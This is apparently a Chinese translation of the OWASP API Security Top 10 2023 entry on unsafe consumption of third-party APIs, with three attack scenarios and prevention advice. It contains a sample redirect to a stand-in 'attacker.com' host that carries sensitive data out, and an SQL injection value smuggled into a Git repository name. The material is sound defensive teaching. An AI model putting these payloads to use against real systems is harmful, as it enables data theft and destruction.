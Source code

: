 API10:2023 不安全的API用法
=====================================

| 威胁来源/攻击向量                                            | 安全弱点                                                     | 影响                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| API特定：易利用性**2**                                       | 普遍性**2**：可检测性**1**                                   | 技术**3**：业务特定                                          |
| 开发人员往往会相信与外部或第三方API交互的终端点。对这些API中的安全漏洞进行成功利用可能会影响依赖它们的人。 | 通常，API集成依赖于较弱的安全要求，例如有关传输安全、身份验证/授权和输入验证和净化的要求。 | 敏感信息被未经授权的人员获取，很多种类型的注入是常见的问题。 |

## API是否存在漏洞？

开发人员往往会相信来自第三方API的数据，而不是用户输入。特别是对于知名公司提供的API，开发人员往往会采用较弱的安全标准，例如在输入验证和净化方面。

如果API满足以下条件，则可能存在漏洞：

- 与其他API在未加密通道上交互；
- 在处理来自其他API的数据之前，未正确验证和净化该数据或将其传递给下游组件；
- 盲目遵循重定向；
- 没有限制可用于处理第三方服务响应的资源数量；
- 未实现与第三方服务交互的超时。

## 攻击场景举例

### 场景1

一个API依赖于第三方服务来丰富用户提供的业务地址。当最终用户提供地址时，它被发送到第三方服务，并返回的数据然后存储在本地SQL启用的数据库中。

攻击者使用第三方服务来存储与他们创建的业务相关的SQLi负载。然后，他们攻击易受攻击的API，提供特定的输入，使其从第三方服务中提取他们的“恶意业务”。 SQLi负载最终由数据库执行，将数据外传到攻击者控制的服务器。

### 场景2

一个API与第三方服务提供商集成，以安全的方式存储用户的敏感医疗信息。使用如下的HTTP请求通过安全通道发送数据：

```
bashCopy code
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

攻击者找到了一种方法来破解第三方API，并开始以308永久重定向响应之前的请求，如下所示：

```
javascriptCopy code
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

由于API盲目地遵循第三方重定向，它将重复相同的请求，包括用户的敏感数据，但这一次是发送到攻击者的服务器。

### 场景3

攻击者可以准备一个名为 `'; drop db;--` 的Git仓库。

现在，当受攻击应用程序的集成与恶意存储库完成后，将在构建应用程序的注入负载上使用该存储库的注入负载，以认为存储库的名称是安全输入的应用程序上。

## 预防措施

- 在评估服务提供商时，评估其API安全姿态。
- 确保所有API交互都发生在安全的通信通道（TLS）上。
- 在使用集成API接收到数据之前，始终验证并适当地清理数据。
- 维护一个白名单，其中包含已知的位置，集成的API可能会重定向到您的位置：不要盲目遵循重定向。

## 参考资料

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html